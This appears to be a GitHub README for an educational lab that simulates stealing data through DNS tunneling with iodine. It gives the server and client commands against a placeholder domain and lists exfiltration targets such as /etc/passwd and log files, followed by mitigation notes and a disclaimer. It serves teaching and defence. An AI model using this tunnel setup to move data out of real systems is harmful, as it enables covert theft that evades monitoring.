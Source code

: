 **Data Stealing Using DNS Tunneling**

This project demonstrates how attackers can exploit the DNS protocol to steal data from a compromised system using DNS tunneling. The exercise highlights the misuse of DNS, a critical service for resolving domain names, to covertly bypass security measures.


**Tools & Technologies:**

Operating System: Kali Linux

Tools: iodine

Environment: Virtualized environment for secure testing and execution


**Attack Simulation Steps:**

**Setup the DNS Server:**

Deployed iodine on Kali Linux to create a DNS tunnel.

Command: **sudo iodined -f -c -P password 192.168.1.1 fake-domain.org**

**Setup the DNS Client:**

Configured the client on Ubuntu to connect to the DNS server using iodine.

Command: **sudo iodine -f -P password -T A 192.168.1.1 fake-domain.org**


**Data Exfiltration:**

Executed various methods to stealthily transfer data through the DNS tunnel:

Method 1: Transferred the output of system commands.

Method 2: Transferred sensitive files such as /etc/passwd.

Method 3: Transferred system log files.


**Mitigation:**


**Detection:** Monitored DNS traffic using tools like Wireshark.

**Prevention:** Implemented DNS filtering and anomaly detection systems to block unauthorized DNS queries.

**Outcome:** Demonstrated how DNS tunneling can be exploited for covert data exfiltration and the importance of robust DNS security measures to detect and mitigate such attacks.



**Note:** All documents related to this project are included in the repository for detailed context and instructions.

**How to Use:**

Download and review the Learning Objective and Lab Manual documents for context, instructions, and mitigation strategies.

Set up the environment using the provided Bash scripts to simulate the DNS tunneling attack.

View the PowerPoint Presentation for a summary and educational overview of the project.


**Disclaimer
This project is intended for educational purposes only. Unauthorized use of this code in real-world systems is illegal and unethical.**
